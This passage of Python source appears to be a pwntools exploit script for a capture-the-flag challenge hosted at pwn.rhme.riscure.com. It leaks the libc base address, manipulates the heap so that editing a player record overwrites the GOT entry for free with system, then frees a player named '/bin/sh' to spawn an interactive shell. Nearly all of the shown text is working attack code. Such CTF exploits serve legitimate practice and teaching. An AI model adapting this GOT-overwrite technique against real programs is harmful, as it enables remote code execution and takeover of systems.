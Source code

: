 ```python
    log.info('libc base address     0x%x' % (address_libc_base))

    return address_libc_base

def get_target(extra_bp=None):
    target = None
    cwd = os.path.dirname(__file__)
    target_path = os.path.join(cwd, 'main_modified.elf')

    if args.LOCAL:
        target_args = [target_path,] if not args.GDB else ['gdb', target_path]
        target = process.process(target_args, aslr=True)
        if args.GDB:
            target.recvuntil('gef➤ ')
            target.sendline('b main')
            #target.sendline('b *0x00401640')
            #target.sendline('commands')
            #target.sendline('heap bins')
            #target.sendline('continue')
            #target.sendline('end')
            target.sendline('r')
            #target.sendline('heap-analysis-helper')
            if args.INTERACTIVE:
                target.interactive()
                sys.exit(0)
            if extra_bp:
                target.sendline('b *%s' % hex(extra_bp))
            target.sendline('c')
    else:
        target = remote.remote('pwn.rhme.riscure.com', 1337)

    return target, ELF(target_path)

if __name__ == '__main__':

    target, elf = get_target(extra_bp=None)

    path_exploit = os.path.dirname(__file__)
    libc = ELF(os.path.join(path_exploit, 'libc.so.6'))

    # first menu
    recvuntil_main_menu(target)
    # setup the heap so that editing the player willwrite to the GOT of a function
    address_base_libc = setup(target, elf.got['free'], libc.symbols['free']) # free

    address_one_gadget = address_base_libc + libc.symbols['system']
    log.info('one gadget at 0x%x' % address_one_gadget)
    edit_player(target, packing.p64(address_one_gadget)) # one_gadget
    add_player(target, '/bin/sh')
    delete_player(target, 1)
    target.interactive()

```
